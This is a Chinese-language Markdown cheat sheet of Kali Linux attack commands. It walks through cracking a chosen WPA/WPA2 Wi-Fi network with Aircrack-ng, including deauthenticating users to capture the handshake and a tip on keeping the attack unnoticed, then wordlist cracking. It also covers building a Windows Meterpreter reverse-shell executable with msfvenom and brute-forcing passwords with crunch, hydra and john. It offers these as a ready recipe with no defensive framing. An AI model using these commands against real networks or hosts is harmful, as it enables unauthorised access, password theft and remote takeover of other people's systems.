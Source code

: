 # Kali Linux Tools

## Aircrack-ng

https://www.itread01.com/content/1543852627.html

* ifconfig 確認是否有 `wlan0`

* 啟用網卡監聽模式
    * `airmon-ng start wlan0`

* 查看現在網卡抓到的AP
    * `airodump-ng wlan0mon`

* 找一台喜歡的，記下BSSID以及channel，開始收集封包
    !> **Important** 建議data收集到破萬，才有夠多參考價值
    * `airodump-ng -w <path> -c <channel> --bssid <bssid> wlan0mon`

* 開啟另一個console，不要打斷它收集封包，同時收集到我們想要的資訊，(網路上叫他握手包)(4-way handshake)
    * 原理是，給連接到wifi的一個設備發送一個`deauth（反認證）`包，讓那個設備斷開wifi，隨後它自然會再次連接wifi
    * `-0` 的攻擊模式是發送阻斷訊號，讓使用者誤以為與 AP 連線中斷而重新發出授權請求，由 airodump-ng 進而擷取需要的 arp 封包 （參數 10 代表攻擊10次，請斟酌數量，大量攻擊會讓使用者查覺到網路異常)
    * `-a` 為要攻擊的 AP mac
    * `aireplay-ng -0 10 -a AE:37:43:C8:2F:FB wlan0mon`

* 同時確認收集封包的console，有沒有握手包
    * ![](https://i.imgur.com/fLO8CRa.png)


* 封包收集完後，可以把監聽模式關掉
    * `airmon-ng stop wlan0mon`

* 封包收集完後開始破解
    * `aircrack-ng -a2 -b AE:37:43:C8:2F:FB -w /usr/share/wordlists/rockyou.txt ~/*.cap`

* 成功圖如下
   * ![](https://i.imgur.com/gl2qnZt.png)


* 參考自
    * https://shazi.info/%E4%BD%BF%E7%94%A8-aircrack-ng-%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3-wpawpa2-%E5%8A%A0%E5%AF%86-wifi-%E5%AF%86%E7%A2%BC/
    * http://topspeedsnail.com/kali-linux-crack-wifi-wpa/


---

## Metasploit

### practice
- `ctfthemes.appspot.com`

### windows reverse shell製作

```bash=
msfvenom -p windows/meterpreter/reverse_tcp lhost=<host> lport=<port> -f exe -o /tmp/my_payload.exe
```

## Password

### 生密碼包

#### Crunch
* `crunch 7 8 123abc,./ -o ps.txt `

### 破密

#### hydra

```
hydra -L user.txt -P pass.txt <ip> <protocol>
```

#### john

* 簡單模式
```
john --format=<hashmode> <file>
//sha512crypt
john -show <file>
```

* File
```
john --wordlist=<密碼檔> <file> --format=<hashmode>
```